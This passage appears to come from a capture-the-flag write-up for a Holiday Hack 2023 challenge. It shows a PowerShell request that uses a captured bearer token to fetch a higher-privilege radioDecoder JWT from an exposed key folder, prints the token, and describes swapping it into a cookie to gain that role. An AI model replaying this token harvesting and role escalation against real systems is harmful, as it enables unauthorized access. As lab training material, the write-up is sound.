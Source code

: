 ```
GET /jwtDefault/keys/capsPubKey.key
capsPubKey.key:
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAsJZuLJVB4EftUOQN1Auw
VzJyr1Ma4xFo6EsEzrkprnQcdgwz2iMM76IEiH8FlgKZG1U0RU4N3suI24NJsb5w
J327IYXAuOLBLzIN65nQhJ9wBPR7Wd4Eoo2wJP2m2HKwkW5Yadj6T2YgwZLmod3q
n6JlhN03DOk1biNuLDyWao+MPmg2RcxDR2PRnfBartzw0HPB1yC2Sp33eDGkpIXa2023
cx/lGVHFVxE1ptXP+asOAzK1wEezyDjyUxZcMMmV0VibzeXbxsXYvV3knScr2WYO
qZ5ssa4Rah9sWnm0CKG638/lVD9kwbvcO2lMlUeTp7vwOTXEGyadpB0WsuIKuPH6
uQIDAQAB
-----END PUBLIC KEY-----
```

Next, I checked if there is a radio decoder token exposed using the same method, except in the headers I now use the **radioMonitor** token aquired above:

```powershell
#access token for radioMonitor obtained earlier
$accessToken = 'eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJISEMgMjAyMyBDYXB0YWluJ3MgQ29tbXMiLCJpYXQiOjE2OTk0ODU3OTUuMzQwMzMyNywiZXhwIjoxODA5OTM3Mzk1LjM0MDMzMjcsImF1ZCI6IkhvbGlkYXkgSGFjayAyMDIzIiwicm9sZSI6InJhZGlvTW9uaXRvciJ9.f_z24CMLim2JDKf8KP_PsJmMg3l_V9OzEwK1E_IBE9rrIGRVBZjqGpvTqAQQSesJD82LhK2h8dCcvUcF7awiAPpgZpcfM5jdkXR7DAKzaHAV0OwTRS6x_Uuo6tqGMu4XZVjGzTvba-eMGTHXyfekvtZr8uLLhvNxoarCrDLiwZ_cKLViRojGuRIhGAQCpumw6NTyLuUYovy_iymNfe7pqsXQNL_iyoUwWxfWcfwch7eGmf2mBrdEiTB6LZJ1ar0FONfrLGX19TV25Qy8auNWQIn6jczWM9WcZbuOIfOvlvKhyVWbPdAK3zB7OOm-DbWm1aFNYKr6JIRDLobPfiqhKg'

$headers = @{
"Authorization" = "Bearer $accessToken"
"Content-Type" = "application/json"
}

$uri = "https://captainscomms.com/jwtDefault/rDecoder.tok"
$result = Invoke-WebRequest -Uri $uri -Headers $headers
$content = $result.content
Write-Output $content
```

```
GET /jwtDefault/rDecoder.tok
RadioDecoder token:
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJISEMgMjAyMyBDYXB0YWluJ3MgQ29tbXMiLCJpYXQiOjE2OTk0ODU3OTUuMzQwMzMyNywiZXhwIjoxODA5OTM3Mzk1LjM0MDMzMjcsImF1ZCI6IkhvbGlkYXkgSGFjayAyMDIzIiwicm9sZSI6InJhZGlvRGVjb2RlciJ9.cnNu6EjIDBrq8PbMlQNF7GzTqtOOLO0Q2zAKBRuza9bHMZGFx0pOmeCy2Ltv7NUPv1yT9NZ-WapQ1-GNcw011Ssbxz0yQO3Mh2Tt3rS65dmb5cmYIZc0pol-imtclWh5s1OTGUtqSjbeeZ2QAMUFx3Ad93gR20pKpjmoeG_Iec4JHLTJVEksogowOouGyDxNAagIICSpe61F3MY1qTibOLSbq3UVfiIJS4XvGJwqbYfLdbhc-FvHWBUbHhAzIgTIyx6kfONOH9JBo2RRQKvN-0K37aJRTqbq99mS4P9PEVs0-YIIufUxJGIW0TdMNuVO3or6bIeVH6CjexIl14w6fg
```

NICE! Now able to get to work with the radioDecoder role on the SDR by entering the above toek into the value of my justWatchThisRole cookie.

Clicking on the SDR and the left signal as radioDecoder:
```
. . . CQ CQ DE KH644 -- SILLY CAPTAIN! WE FOUND HIS FANCY RADIO PRIVATE KEY IN A FOLDER CALLED TH3CAPSPR1V4T3F0LD3R . . .
```
